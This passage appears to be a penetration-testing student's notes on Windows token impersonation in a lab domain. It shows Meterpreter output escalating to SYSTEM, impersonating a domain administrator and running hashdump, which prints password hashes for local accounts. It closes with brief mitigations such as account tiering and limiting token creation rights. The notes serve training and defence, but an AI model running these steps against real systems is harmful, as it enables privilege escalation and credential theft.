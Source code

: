 [-] No delegation token available<br/>
[+] Successfully impersonated user MARVEL\Administrator<br/>
meterpreter &gt; <br/>
<br/>
NOTE &gt; you need 2 x \ (\\) this is for character escaping<br/>
<br/>
<br/>
C:\Windows\system32&gt;shell<br/>
shell<br/>
'shell' is not recognized as an internal or external command,<br/>
operable program or batch file.<br/>
<br/>
C:\Windows\system32&gt;whoami<br/>
whoami<br/>
nt authority\system<br/>
<br/>
C:\Windows\system32&gt;<br/>
<br/>
<br/>
NOTE &gt;&gt;&gt; TOKENS LAST UNTIL COMPUTER IS REBOOTED&gt;&gt;&gt;<br/>
<br/>
<br/>
C:\Windows\system32&gt;^C<br/>
Terminate channel 2? [y/N] y<br/>
meterpreter &gt; hashdump<br/>
[-] priv_passwd_get_sam_hashes: Operation failed: Access is denied.<br/>
meterpreter &gt; rev2self <br/>
meterpreter &gt; hashdump<br/>
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::<br/>
Logan:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::<br/>
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:43e415a31348a644f60616a676d7554f:::<br/>
meterpreter &gt; <br/>
<br/>
<br/>
if you exit the impersonation and you have lost priveldges. user rev2self<br/>
<br/>
<br/>
MITEGATIONS<br/>
<br/>
Limti user/group token creation permissions<br/>
account tiering - domain admin should only log into system they need IE domain<br/>
local admin restrictions - dont create local admins<br/>
user and admin account segregation<br/>
<br/>
<br/>
